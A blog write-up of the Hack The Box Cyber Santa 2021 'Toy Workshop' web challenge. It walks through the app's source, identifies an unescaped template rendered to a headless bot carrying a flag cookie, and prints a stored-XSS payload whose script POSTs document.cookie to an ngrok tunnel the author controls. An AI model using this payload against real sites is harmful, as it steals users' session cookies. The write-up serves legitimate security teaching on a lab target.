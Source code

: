 ## HTB Cyber Santa CTF 2021: Toy Workshop

# Introduction

> The work is going well on Santa's toy workshop but we lost contact with the manager in charge! We suspect the evil elves have taken over the workshop, can you talk to the worker elves and find out?

This is a complete write-up for the Toy Workshop challenge at Cyber Santa CTF 2021 hosted by Hack The Box. Learn more from additional readings found at the end of the article. I would be thankful if you mention me when using parts of this article in your work. Enjoy!

# Basic information

| #     |   |
|:--    |:--|
|Type    | Jeopardy CTF / Web |
|Organized  by | [Hack The Box](https://www.hackthebox.com/events/santa-needs-your-help)
|Name    | ** HTB Cyber Santa CTF / Toy Workshop** |
|URLs    | https://ctftime.org/event/1523/ |
| | https://ctf.hackthebox.com/ctf/249| 
|Author  | **Asentinn** / OkabeRintaro|
|       | [https://ctftime.org/team/152207](https://ctftime.org/team/152207)

> 🔔 `CyberEthical.Me` is maintained purely from your donations - consider one-time sponsoring with the [Sponsor](/sponsor) button or 🎁 [become a Patron](https://www.patreon.com/cyberethicalme) which also gives you some bonus perks. 
Join our [Discord Server](https://discord.com/invite/5MjU4Cxf3R)!

%%[bmac-button]

# Recon

We have a downloadable content and docker instance to spin up.

By reading the source code, we can establish the flow of the application. There is a `toy_workshop.db` database

```js
//index.js
const db = new Database('toy_workshop.db');
```

that holds a `queries` table.

```sql
--datbase.js
DROP TABLE IF EXISTS queries;

CREATE TABLE IF NOT EXISTS queries (
    id          INTEGER      NOT NULL PRIMARY KEY AUTOINCREMENT,
    query       VARCHAR(500) NOT NULL,
    created_at  TIMESTAMP    DEFAULT CURRENT_TIMESTAMP
);
```

The application can interact with that table through following queries:

```sql
--database.js

--addQuery(query)
INSERT INTO queries (query) VALUES (?)

--getQueries()
SELECT * FROM queries
```

The only way we can interact with the database is to insert new query

```js
//routes/index.js
router.post('/api/submit', async (req, res) => {

		const { query } = req.body;
		if(query){
			return db.addQuery(query)
				.then(() => {
					bot.readQueries(db);
					res.send(response('Your message is delivered successfully!'));
				});
		}
		return res.status(403).send(response('Please write your query first!'));
});
```

because `/queries` call can be executed only from the `localhost`.

```js
//routes/index.js
router.get('/queries', async (req, res, next) => {
	if(req.ip != '127.0.0.1') return res.redirect('/');

	return db.getQueries()
		.then(queries => {
			res.render('queries', { queries });
		})
		.catch(() => res.status(500).send(response('Something went wrong!')));
});
```

The `/queries` endpoint is called by the browser emulator - [Puppeteer]().

```js
//bot.js
const puppeteer = require('puppeteer');

const browser_options = {
	headless: true,
	//...
};

const cookies = [{
	'name': 'flag',
	'value': 'HTB{f4k3_fl4g_f0r_t3st1ng}'
}];

const readQueries = async (db) => {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();
		await page.goto('http://127.0.0.1:1337/');
		await page.setCookie(...cookies);
		await page.goto('http://127.0.0.1:1337/queries', {
			waitUntil: 'networkidle2'
		});
		await browser.close();
		await db.migrate();
};

module.exports = { readQueries };`
```

When analyzing the bot's `readQueries` function and the `/api/submit` endpoint code, we have the clear situation.

1. Submitting the new query (adding row to `queries` table) executes the `bot.readQueries()` function.
2. Bot opens the web application page: `http://127.0.0.1:1337/`
3. Bot sets cookie `flag=HTB{.*}`.
4. Queries are read by rendering the `views/queries.hbs` view without any sanitization.
```js
//views/queries.hbs
 <div class="dash-frame">
    {{#each queries}}
            <p>{{{this.query}}}</p>
        {{else}}
            <p class="empty">No content</p>
        {{/each}}
</div>
```

There is a potential SSRF (*Server Side Request Forgery*) with *Sensitive Data Exposure* vulnerability.

# Weaponizing

We should be able to push into the `queries` table the malicious JS code that would read the `flag` cookie and sends it back somehow, so we can read the flag. I found this pattern easy to recognize because I was participating in the HTB Cyber Apocalypse CTF this year (2021) and watched some John Hammond video about Alien Journal (see [Additional readings](#heading-additional-readings)).

So, what I did is I set up a simple `ngrok` tunnel on my machine without listener on my end. I can do that because `ngrok` provides a nice dashboard under `localhost:4040` so I can see the incoming connections.

# Exploitation

With that ready, I write an API call to insert the malicious JS into the queries table.

```js
var q = "<script>fetch('http://****-**-***-***-***.ngrok.io/flag', {method:'POST', body: document.cookie});</script>";
fetch('/api/submit', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json',
        },
        body: JSON.stringify({query: q}),
    })
    .then((response) => response.json()
        .then((resp) => {
            console.log(resp);
        }))
    .catch((error) => {
        console.log(error)
    });
```

![2021-12-01-14-37-35.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1638741878576/z7rD-jaNq.png)

# Additional readings

> 📌 Follow the `#CyberEthical` hashtag on the social media  
> 🎁 Become a Patron and [gain additional benefits](https://www.patreon.com/cyberethicalme)  
> 👾 Join CyberEthical [Discord server](https://discord.com/invite/5MjU4Cxf3R)  
> 👉 Instagram: [@cyber.ethical.me](https://www.instagram.com/cyber.ethical.me/)  
> 👉 LinkedIn: [CyberEthical.Me](https://www.linkedin.com/company/cyberethical-me)  
> 👉 Twitter: [@cyberethical_me](https://twitter.com/cyberethical_me)  
> 👉 Facebook: [@CyberEthicalMe](https://facebook.com/CyberEthicalMe)  

* [Cloudflare CDN CSP - XSS Bypass / HackTheBox Cyber Apocalypse CTF](https://www.youtube.com/watch?v=uU_tvQPCBUo) by John Hammond
* [OWASP Top 10:2021
A10 Server Side Request Forgery (SSRF)](https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/) @ OWASP
* [Cross Site Scripting](https://owasp.org/www-community/attacks/xss/) @ OWASP

> Do you like what you see? Join the [Hashnode.com](https://blog.cyberethical.me/join) now and start publishing. Things that are awesome:  
>✔ Automatic GitHub Backup  
>✔ Write in Markdown  
>✔ Free domain mapping  
>✔ CDN hosted images  
>✔ Free built-in newsletter service  
>✔ Built-in blog monetizing through the Sponsor feature  
> By using my link, you can help me unlock the ambassador role, which cost you nothing and gives me some additional features to support my content creation mojo.

